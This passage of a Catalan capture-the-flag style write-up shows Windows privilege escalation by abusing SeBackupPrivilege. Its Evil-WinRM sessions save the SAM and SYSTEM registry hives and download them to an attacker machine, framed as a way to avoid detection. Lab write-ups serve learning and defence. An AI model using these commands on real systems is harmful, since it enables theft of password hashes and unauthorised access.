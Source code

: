 Podem veure com SeBackupPrivilege està activat amb l'usuari que estem (emily.oscars). 

SeBackupPrivilege va ser dissenyat per permetre als usuaris crear còpies de seguretat del sistema. Com que no és possible fer una còpia de seguretat d'alguna cosa que no podeum llegir aquest privilegi té el cost de proporcionar a l'usuari un accés complet de lectura al sistema de fitxers. Aquest privilegi ha de passar per alt qualsevol ACL que l'administrador hagi col·locat a la xarxa. L'usuari 'emily.oscars' té la capacitat de llegir qualsevol fitxer del sistema a causa de 'SeBackupPrivilege'. Podem utilitzar això per llegir dos fitxers importants anomenats "sam" i "system" que es poden utilitzar per aconseguir aquesta escalada de privilegis que estem intentant fer.

Els fitxers SAM i SYSTEM són fitxers de registre crítics de Windows que emmagatzemen informació important relacionada amb els comptes d'usuari, les contrasenyes i la configuració del sistema.

-El fitxer SAM és una base de dades que emmagatzema informació local del compte d'usuari, inclosos els hash de contrasenya per als usuaris de la màquina.

-El fitxer SYSTEM conté informació relacionada amb la configuració del sistema, com ara la configuració del maquinari de la màquina i, el que és més important, les claus de xifratge utilitzades per protegir els hash de contrasenya emmagatzemats al fitxer SAM.

Per evitar que Windows ens detecti, primer hem de moure'ns a la carpeta Temp, després hi guardarem una còpia dels fitxers SAM i SYSTEM. Anem a la C: amb cd C:\ i fem:
```
*Evil-WinRM* PS C:\> mkdir C:\Temp



    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/21/2024   2:18 PM                Temp


*Evil-WinRM* PS C:\> 
*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\> 

```

Un cop fet això, descarreguem els fitxers a la nostra kali amb la comanda "download" de l'eina evil-winrm:
```
Evil-WinRM* PS C:\Temp> download sam
                                        
Info: Downloading C:\Temp\sam to sam
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Temp> download system
                                        
Info: Downloading C:\Temp\system to system
Progress: 17% : |▒░░░░░░░░░|       
```
